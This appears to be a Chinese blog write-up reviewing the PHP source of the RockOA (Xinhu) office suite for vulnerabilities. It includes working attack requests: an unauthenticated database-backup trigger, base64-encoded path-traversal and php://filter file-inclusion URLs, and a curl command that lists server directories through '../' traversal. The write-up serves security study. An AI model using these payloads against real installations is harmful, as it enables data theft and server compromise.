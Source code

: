 ```yaml
---
layout: post
title: php code review - rockoa
date: 2023-06-09 20:15 +0800
categories: [ctf, web, code-review]
tag: [web, php]
---
```


看一下task.php
```php
<?php 
/**
*	计划任务地址，指向目录webmain/task下
*	也可用cli处理的命令如：php task.php cli,run
*	主页：http://www.rockoa.com/
*	软件：信呼
*	作者：雨中磐石(rainrock)
*/
define('ENTRANCE', 'task');
include_once('config/config.php');
$m 			= 'mode';
if(isset($argv[1])){
	$_mar	= explode(',', $argv[1]);
	$m 		= $_mar[0].'|runt';
	if(isset($_mar[1]))$a = $_mar[1];
}
$d			= $rock->get('d','task');
$m			= $rock->get('m',$m);
include_once('include/View.php');
```
搜一下调用方式
```php
class tonghuaClassAction extends runtAction
{
	
	public function sendcpush($arr)
	{
		$arr['msgtype'] = 'calltonghua';
		$arr['type']	= 'calltonghua';
		$reimobj 		= m('reim');
		$reimobj->pushserver('sendapp', $arr);
		$reimobj->pushserver('send', $arr);
	}

	/**
	*	呼叫发送
	*	http://192.168.1.2/app/xinhu/task.php?m=tonghua|runt&a=call&key=d9ydh2d8
	*/
	public function callAction()
	{
		$key 	= $this->getparams('key');
		$cishu 	= (int)$this->getparams('cishu','1');
		
		if($cishu>=15)return;
		if(!$key)return;
		$data = c('cache')->get($key);
		if(!$data)return;
        ...
    }
}
```

## 未授权备份
触发点：
```php
class beifenClassModel extends Model
{
	/**
	*	备份到upload/data下
	*/
	public function start()
	{
		$alltabls 	= $this->db->getalltable();
		$nobeifne	= array(''.PREFIX.'log',''.PREFIX.'logintoken',''.PREFIX.'kqanay',''.PREFIX.'email_cont',''.PREFIX.'dailyfx',''.PREFIX.'todo',''.PREFIX.'city',''.PREFIX.'kqjcmd'); //不备份的表;
		
		$beidir 	= ''.UPDIR.'/data/'.date('Y.m.d.H.i.s').'.'.rand(1000,9999).'';
    }
}
```


找一下能调用start的
```php
class sysClassAction extends runtAction
{
	//数据备份
	public function beifenAction()
	{
		if(getconfig('systype')=='demo')return 'success';
		m('beifen')->start();
		$this->todoarr	= array(
			'title' 	=> '数据库备份',
			'cont' 		=> '数据库在['.$this->now.']备份了。',
		);
		return 'success';
	}
    ...
}
```

构造url：`task.php?m=sys|runt&a=beifen`

接下来根据代码去：
* 爆破目录
* 爆破sql文件
* 反查md5


## 后台getshell


## phpinfo
?m=index&a=phpinfo 

## 文件包含
```php
public function getshtmlAction()
{
    $this->pannouser();
    $surl = $this->jm->base64decode($this->get('surl'));
    $num  = $this->get('num');
    $menuname  = $this->jm->base64decode($this->get('menuname'));
    if(isempt($surl))exit('not found');
    $file = ''.P.'/'.$surl.'.php';
    var_dump($file);
    if(!file_exists($file))$file = ''.P.'/'.$surl.'.shtml';
    if(!file_exists($file))exit('404 not found '.$surl.'');
    if(contain($surl,'home/index/rock_index'))$this->showhomeitems();//首页的显示
    
    $this->displayfile = $file;
    //记录打开菜单日志
    if($num!='home' && getconfig('useropt')=='1')
        m('log')->addlog('打开菜单', '菜单['.$num.'.'.$menuname.']');
}

```
* http://god.dd:8888/xinhu/index.php?m=index&a=getshtml&surl=Li4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vdG1wL3Rlc3Q=

* http://god.dd:8888/xinhu/index.php?m=index&a=getshtml&surl=cGhwOi8vZmlsdGVyL2NvbnZlcnQuYmFzZTY0LWVuY29kZS9yZXNvdXJjZT0uLi8uLi8uLi8uLi8uLi90bXAvdGVzdC5waHA=


```javascript
js.getajaxurl=function(a,m,d,can){
	if(!can)can={};
	if(!m)m='';
	if(!d)d='';
	if(d=='null')d='';
	var jga	= a.substr(0,1);
	if(jga=='@')a = a.substr(1);
	var url	= 'index.php?a='+a+'&m='+m+'&d='+d+'';
	for(var c in can)url+='&'+c+'='+can[c]+'';
	if(jga!='@')url+='&ajaxbool=true';	
	url+='&rnd='+Math.random()+'';	
	return url;
}

```
```
gototxemail:function(){
	window.open('?d=system&m=weixinqy&a=gototxemail');
}
```

列目录
```php
public function getfilerows($path)
{
    $rows	= array();
    if(!is_dir($path))return $rows;
    @$d 	= opendir($path);
    $nyunf	= array('.', '..');
    while( false !== ($file = readdir($d))){
        if(!in_array($file, $nyunf)){
            $filess = $path.'/'.$file;
            if(is_file($filess)){
                $editdt = filectime($filess);//上次修改时间
                $lastdt = filemtime($filess);//最后修改的时间
                $rows[] = array(
                    'filename' 	=> $file,
                    'editdt' 	=> date('Y-m-d H:i:s', $editdt),
                    'lastdt' 	=> date('Y-m-d H:i:s', $lastdt),
                );
            }
        }
    }
    return $rows;
}
```

`curl http://god.dd:8888/xinhu/task.php?a=getdatssss&m=beifen&d=system&ajaxbool=true -X POST -d 'folder=../../../../../../tmp' -b 'PHPSESSID=8mc3tkp13arrfc8h2jr3bgj9p0'`